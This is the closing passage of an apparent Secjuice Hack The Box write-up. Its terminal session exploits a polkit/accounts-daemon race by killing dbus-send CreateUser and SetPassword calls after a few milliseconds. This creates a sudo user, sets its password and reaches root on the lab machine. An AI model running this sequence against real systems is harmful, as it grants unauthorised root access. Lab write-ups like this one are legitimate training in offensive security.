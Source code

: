 And this time it's the good one.

    bash-5.0# time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:rohit string:"Rohit Verma" int32:1
    method return time=1675630790.684886 sender=:1.1 -> destination=:1.12831 serial=25098 reply_serial=2
       object path "/org/freedesktop/Accounts/User1000"
    
    real    0m0.203s
    user    0m0.001s
    sys     0m0.004s
    bash-5.0# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"Rohit Verma" int32:1
    method return time=1675631154.438356 sender=:1.1 -> destination=:1.12832 serial=25113 reply_serial=2
       object path "/org/freedesktop/Accounts/User1002"
    bash-5.0# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.007s ; kill $!
    [1] 106207
    Error org.freedesktop.Accounts.Error.UserExists: A user with name 'hack' already exists
    [1]+  Exit 1                  dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"Boris Ivanovich Grishenko" int32:1
    bash: kill: (106207) - No such process
    bash-5.0# id hack
    uid=1002(hack) gid=1002(hack) groups=1002(hack),27(sudo)
    bash-5.0# openssl passwd -5 1234
    $5$JN4Juo654cVM0N3b$feM024QSeuCxuy/3Q.Fh6SxffbPW2a15ThQT1t1UCi7
    bash-5.0# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$JN4Juo654cVM0N3b$feM024QSeuCxuy/3Q.Fh6SxffbPW2a15ThQT1t1UCi7' string:GoldenEye & sleep 0.008s ; kill $!
    [1] 106324
    bash-5.0# whoami
    root
    [1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$JN4Juo654cVM0N3b$feM024QSeuCxuy/3Q.Fh6SxffbPW2a15ThQT1t1UCi7' string:GoldenEye
    bash-5.0# cat /root/root.txt
    6******************************7

And once again... that's all, folks. Don't miss the article in which an AI challenges an HTB BOX and finds out who won. For the moment, goodbye, but only until the next BOX. Happy hackin,g everyone!

## Help Support Our Non-Profit Mission

If you enjoyed this article or found it helpful please consider making a **U.S. tax-deductible** donation, Secjuice is a non-profit and volunteer-based publication powered by donations. We will use your donation to help cover our hosting costs and **keep Secjuice an advertisement and sponsor free zone**.

[Make a tax-deductible donation](https://opencollective.com/secjuice)
